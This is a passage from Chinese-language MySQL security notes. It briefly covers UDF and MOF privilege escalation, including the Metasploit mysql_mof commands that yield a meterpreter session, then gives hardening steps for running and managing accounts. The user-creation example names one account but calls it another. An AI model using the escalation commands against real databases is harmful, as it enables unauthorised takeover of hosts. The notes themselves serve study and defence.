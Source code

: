 ### UDF提权
Metasploit提供的exploit适应于5.5.9以下


0x07.利用Mof提权
这个模块的好处是通过用户名和密码可以直接返回一个meterpreter会话
```
msf > use exploit/windows/mysql/mysql_mof

set rhost [ip]

set USERNAME root

set PASSWORD xxx

exploit
```

## 安全加固

### 帐号安全

禁止 Mysql 以管理员帐号权限运行

以普通帐户安全运行 mysqld，禁止以管理员帐号权限运行 MySQL 服务。在 /etc/my.cnf 配置文件中进行以下设置。
```
[mysql.server]
user=mysql
```
### 避免不同用户间共享帐号

参考以下步骤。

创建用户。
```
mysql> mysql> insert into
mysql.user(Host,User,Password,ssl_cipher,x509_issuer,x509_sub 
ject) values("localhost","pppadmin",password("passwd"),'','','');
```
执行以上命令可以创建一个 phplamp 用户。

使用该用户登录 MySQL 服务。
```
mysql>exit; 
@>mysql -u phplamp -p 
@>输入密码 
mysql>登录成功
删除无关帐号
```

DROP USER 语句可用于删除一个或多个 MySQL 账户。使用 DROP USER 命令时，必须确保当前账号拥有 MySQL 数据库的全局 CREATE USER 权限或 DELETE 权限。账户名称的用户和主机部分分别与用户表记录的 User 和 Host 列值相对应。

执行DROP USER user;语句，您可以取消一个账户和其权限，并删除来自所有授权表的帐户权限记录。
